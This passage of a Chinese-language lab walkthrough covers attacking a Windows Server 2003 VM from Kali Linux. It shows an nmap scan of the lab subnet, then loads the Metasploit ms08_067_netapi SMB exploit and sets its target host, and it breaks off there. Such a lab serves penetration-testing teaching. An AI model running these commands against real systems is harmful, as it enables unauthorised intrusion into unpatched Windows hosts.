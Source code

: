 
3.确保这两台虚拟机都处于vmnet 8 虚拟网络中，即子网地址10.10.10.0/24 。


4.使用命令```ifconfig```查看kali的IP地址。

<img src="images/lab_exploitwin2k3/kali下ifconfig.png" width="480" alt="kali下ifconfig" />

可知其IP地址为10.10.10.133。

5.在kali中，打开terminal，运行下列命令，使用 nmap 对局域网内活跃主机进行扫描。
``` nmap -sN 10.10.10.0/24```

<img src="images/lab_exploitwin2k3/nmapscan.png" width="480" alt="nmapscan" />

可知win2k3虚拟机的IP地址为10.10.10.130。

6.打开kali中的metasploit-framework.

<img src="images/lab_exploitwin2k3/metasploitable01.png" width="480" alt="metasploitable01" />

7.运行下列命令，加载渗透代码。
```
# 加载渗透代码
use exploit/windows/smb/ms08_067_netapi
# 显示选项
show options
```

<img src="images/lab_exploitwin2k3/metasploitable02.png" width="480" alt="metasploitable02" />

8.设置渗透选项。
```
# 设置RHOST
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.130